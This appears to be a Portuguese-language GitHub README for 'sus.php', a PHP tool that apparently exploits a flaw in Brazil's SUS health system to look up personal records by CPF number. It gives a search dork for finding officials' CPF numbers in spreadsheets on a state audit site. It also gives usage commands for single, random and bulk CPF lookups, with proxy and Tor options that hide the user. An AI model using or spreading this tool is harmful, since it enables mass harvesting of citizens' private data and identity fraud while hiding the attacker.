 <h1>Vulnerability Sending Sus</h1>

[-] Dork:
site:www1.tce.pr.gov.br cpf deputados/prefeitos ext:xls

http://twitter.com/@MatheusTDashh

<p>[-] Pesquisa CPF único     --> php sus.php --cpf 13326724691 -s resultado.txt</p>
<p>[-] Pesquisa CPF randômico --> php sus.php --cpf --dandom -s resultado.php</p>
<p>[-] Pesquisa CPF arquivo   --> php sus.php -o arquivo_cpf.txt -s resultado.php</p>
<p>[-] Pesquisa com proxy     --> php sus.php --cpf 13326724691 -s resultado.txt --proxy proxy:porta</p>
<p>php sus.php --cpf --random -s resultado.txt --proxy proxy:porta</p>
<p>php sus.php -o arquivo_cpf.txt -s resultado.txt --proxy proxy:porta</p>

<h3><p>[-] Formato proxy:</h3></p>
<p>--proxy localhost:8118</p>
<p>--proxy socks5://matheus@localhost:9050</p>
<p>--proxy http://admin:1234@172.16.0.90:8080</p>

<h3>[-] Depêndencias:</h3>
<p>#PHP Version         5.4.7</p>
<p>#php5-curl           LIB</p>
<p>#php5-cli            LIB</p>
<p><img width="650" height="400" src="http://i.imgur.com/fuNul5h.jpg"></p>
